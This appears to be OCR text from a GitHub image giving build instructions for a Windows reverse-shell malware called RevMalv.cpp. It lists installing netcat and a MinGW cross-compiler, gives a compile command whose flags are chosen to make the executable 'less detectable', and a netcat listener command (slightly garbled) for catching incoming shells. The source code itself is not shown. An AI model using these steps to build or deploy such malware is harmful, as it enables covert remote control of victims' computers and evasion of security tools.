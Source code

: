 *** INSTALL REQUIREMENTS FOR COMPILE ***
// DEBIAN
sudo apt install netcat
sudo apt install g++mingw-w64-i686

// ARCH LINUX
sudo pacman -S gnu-netcat
sudo pacman -S mingw-w64-i686-gcc

// compile the malware (RevMalv.cpp) into a lightweight and less detectable executable
// by using flags to strip debugging symbols and statically link libraries

i686-w64-mingw32-g++ -std=c++11 RevMalv.cpp -o RevMalv.exe -s -lws2_32 -Wno-write-strings -static -static-libstdc++ -static-libgcc

*** NETCAT LISTENER ***
// nc lvp -8080
- nc = netcat
- -lvp = listen-verbose-port
- 8080 = port
